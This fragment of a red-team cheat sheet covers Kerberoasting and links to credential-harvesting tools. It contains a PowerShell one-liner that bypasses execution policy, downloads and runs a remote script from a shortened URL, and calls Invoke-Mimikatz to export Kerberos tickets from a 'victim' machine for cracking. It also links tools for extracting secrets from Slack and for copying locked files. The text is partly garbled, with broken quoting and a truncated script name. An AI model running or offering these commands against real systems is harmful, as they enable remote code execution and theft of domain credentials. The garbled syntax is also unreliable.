     * Now we have our tickets imported into memory and we need to extract them.
      * Mimikatz Kerberoast export:
      * \>powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2qx4kuH'); Invoke-Mimikatz -Command ‘’'''''kerberos::list /export'''''''
      * Once extracted and on our victims machine and we can start cracking them!
        * use tgsrepcrack.p
{% endtab %}
{% endtabs %}

## Misc

<details><summary>Command Reference</summary></details>

* [SlackPirate](https://github.com/emtunc/SlackPirate) - Slack Enumeration and Extraction Tool - extract sensitive information from a Slack Workspace
* Copy a locked file - [https://github.com/GhostPack/Lockless](https://github.com/GhostPack/Lockless)
